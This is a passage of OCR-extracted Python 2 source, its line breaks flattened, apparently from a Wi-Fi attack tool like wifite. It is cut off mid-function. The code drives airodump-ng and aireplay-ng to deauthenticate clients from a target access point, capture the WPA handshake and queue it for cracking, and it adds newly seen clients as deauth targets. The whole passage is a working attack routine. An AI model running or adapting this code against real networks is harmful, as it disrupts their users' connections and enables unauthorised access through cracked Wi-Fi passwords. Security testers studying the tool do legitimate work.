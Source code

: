 self.RUN_CONFIG.WPA_HANDSHAKE_DIR + os.sep + re.sub(r'[^a-zA-Z0-9]', '', self.target.ssid) \ + '_' + self.target.bssid.replace(':', '-') \ + '_' + str(save_index) + '.cap' file_prefix = os.path.join(self.RUN_CONFIG.temp, 'wpa') cap_file = file_prefix + '-01.cap' csv_file = file_prefix + '-01.csv' # Remove previous airodump output files (if needed) remove_airodump_files(file_prefix) # Start of large Try-Except; used for catching keyboard interrupt (Ctrl+C) try: # Start airodump-ng process to capture handshakes cmd = ['airodump-ng', '-w', file_prefix, '-c', self.target.channel, '--write-interval', '1', '--bssid', self.target.bssid, self.iface] proc_read = Popen(cmd, stdout=DN, stderr=DN) # Setting deauthentication process here to avoid errors later on proc_deauth = None print ' %s starting %swpa handshake capture%s on "%s"' % \ (GR + sec_to_hms(self.RUN_CONFIG.WPA_ATTACK_TIMEOUT) + W, G, W, G + self.target.ssid + W) got_handshake = False seconds_running = 0 seconds_since_last_deauth = 0 target_clients = self.clients[:] client_index = -1 start_time = time.time() # Deauth and check-for-handshake loop while not got_handshake and ( self.RUN_CONFIG.WPA_ATTACK_TIMEOUT <= 0 or seconds_running < self.RUN_CONFIG.WPA_ATTACK_TIMEOUT): if proc_read.poll() != None: print "" print "airodump-ng exited with status " + str(proc_read.poll()) print "" break time.sleep(1) seconds_since_last_deauth += int(time.time() - start_time - seconds_running) seconds_running = int(time.time() - start_time) print " \r", print ' %s listening for handshake...\r' % \ (GR + sec_to_hms(self.RUN_CONFIG.WPA_ATTACK_TIMEOUT - seconds_running) + W), stdout.flush() if seconds_since_last_deauth > self.RUN_CONFIG.WPA_DEAUTH_TIMEOUT: seconds_since_last_deauth = 0 # Send deauth packets via aireplay-ng cmd = ['aireplay-ng', '--ignore-negative-one', '--deauth', str(self.RUN_CONFIG.WPA_DEAUTH_COUNT), # Number of packets to send '-a', self.target.bssid] client_index += 1 if client_index == -1 or len(target_clients) == 0 or client_index >= len(target_clients): print " %s sending %s deauth to %s*broadcast*%s..." % \ (GR + sec_to_hms(self.RUN_CONFIG.WPA_ATTACK_TIMEOUT - seconds_running) + W, G + str(self.RUN_CONFIG.WPA_DEAUTH_COUNT) + W, G, W), client_index = -1 else: print " %s sending %s deauth to %s... " % \ (GR + sec_to_hms(self.RUN_CONFIG.WPA_ATTACK_TIMEOUT - seconds_running) + W, \ G + str(self.RUN_CONFIG.WPA_DEAUTH_COUNT) + W, \ G + target_clients[client_index].bssid + W), cmd.append('-c') cmd.append(target_clients[client_index].bssid) cmd.append(self.iface) stdout.flush() # Send deauth packets via aireplay, wait for them to complete. proc_deauth = Popen(cmd, stdout=DN, stderr=DN) proc_deauth.wait() print "sent\r", stdout.flush() # Copy current dump file for consistency if not os.path.exists(cap_file): continue temp_cap_file = cap_file + '.temp' copy(cap_file, temp_cap_file) # Save copy of cap file (for debugging) #remove_file('/root/new/wpa-01.cap') #copy(temp + 'wpa-01.cap', '/root/new/wpa-01.cap') # Check for handshake if self.has_handshake(self.target, temp_cap_file): got_handshake = True try: os.mkdir(self.RUN_CONFIG.WPA_HANDSHAKE_DIR + os.sep) except OSError: pass # Kill the airodump and aireplay processes send_interrupt(proc_read) send_interrupt(proc_deauth) # Save a copy of the handshake rename(temp_cap_file, save_as) print '\n %s %shandshake captured%s! saved as "%s"' % ( GR + sec_to_hms(seconds_running) + W, G, W, G + save_as + W) self.RUN_CONFIG.WPA_FINDINGS.append( '%s (%s) handshake captured' % (self.target.ssid, self.target.bssid)) self.RUN_CONFIG.WPA_FINDINGS.append('saved as %s' % (save_as)) self.RUN_CONFIG.WPA_FINDINGS.append('') # Strip handshake if needed if self.RUN_CONFIG.WPA_STRIP_HANDSHAKE: self.strip_handshake(save_as) # Add the filename and SSID to the list of 'to-crack' # Cracking will be handled after all attacks are finished. self.RUN_CONFIG.WPA_CAPS_TO_CRACK.append(CapFile(save_as, self.target.ssid, self.target.bssid)) break # Break out of while loop # No handshake yet os.remove(temp_cap_file) # Check the airodump output file for new clients for client in self.RUN_CONFIG.RUN_ENGINE.parse_csv(csv_file)[1]: if client.station != self.target.bssid: continue new_client = True for c in target_clients: if client.bssid == c.bssid: new_client = False break if new_client: print " %s %snew client%s found: %s " % \ (GR + sec_to_hms(self.RUN_CONFIG.WPA_ATTACK_TIMEOUT - seconds_running) + W, G, W, \ G + client.bssid + W) target_clients.append(client) # End of Handshake wait loop. if not got_handshake: print R + ' [0:00:00]' + O + ' unable to capture handshake in time' + W except KeyboardInterrupt: print R + '\n (^C)' + O + ' WPA handshake capture interrupted' + W if attack_interrupted_prompt(): remove_airodump_files(file_prefix) send_interrupt(proc_read) send_interrupt(proc_deauth) print '' self.RUN_CONFIG.exit_gracefully(0) # clean up remove_airodump_files(file_prefix) send_interrupt(proc_read) send_interrupt(proc_deauth) return got_handshake def has_handshake_tshark(self, target, capfile): """ Uses TShark to check for a handshake. Returns "True" if handshake is found, false otherwise. """ if program_exists('tshark'): # Call Tshark to return list of EAPOL packets in cap file. cmd = ['tshark', '-r', capfile, # Input file '-R', 'eapol', # Filter (only EAPOL packets) '-2', # -R is deprecated and requires -2 '-n'] # Do not resolve names (MAC vendors) proc = Popen(cmd, stdout=PIPE, stderr=DN) proc.wait() lines = proc.communicate()[0].split('\n') # Get list of all clients in cap file clients = [] for line in lines: if line.find('appears to have been cut short') != -1 or line.find( 'Running as user "root"') != -1 or line.strip() == '': continue while line.startswith(' '): line = line[1:] while line.find(' ') != -1: line = line.replace(' ', ' ') fields = line.split(' ') # ensure tshark dumped correct info if len(fields) < 5: continue src = fields[2].lower() dst =